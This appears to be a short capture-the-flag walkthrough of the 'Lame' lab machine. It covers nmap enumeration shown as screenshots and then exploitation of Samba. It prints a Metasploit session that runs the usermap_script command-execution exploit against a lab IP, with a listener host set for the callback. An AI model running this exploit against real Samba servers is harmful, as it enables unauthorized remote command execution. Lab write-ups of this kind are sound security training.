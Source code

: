 # Lame

## 1. Overview

### 1.1. Attacks

* Samba

### 1.2. Tools used

**Enumeration** &rarr; `nmap`.

**Exploitation** &rarr; `msf`.

## 2. Walkthrough

### 2.1. Enumeration

#### 2.1.1. nmap

##### 2.1.1.1. Ports

![Lame Ports](_v_images/20201003212147744_9896.png)

##### 2.1.1.2. Host Details

![Lame Host Details](_v_images/20201003212552432_15255.png)
![Lame Host Script Results](_v_images/20201003212621286_30855.png)


* **Finding:** Message_Signing &rarr; disabled

Samba looks exploitable.

### 2.2. Exploitation

#### 2.2.1. Sources

[[Rapid7] Samba "username map script" Command Execution ](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script)

#### 2.2.2. Metasploit

```msf
msf5 > use exploit/multi/samba/usermap_script
msf5 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(multi/samba/usermap_script) > set LHOST 10.10.14.7
LHOST => 10.10.14.7
msf5 exploit(multi/samba/usermap_script) > run
```
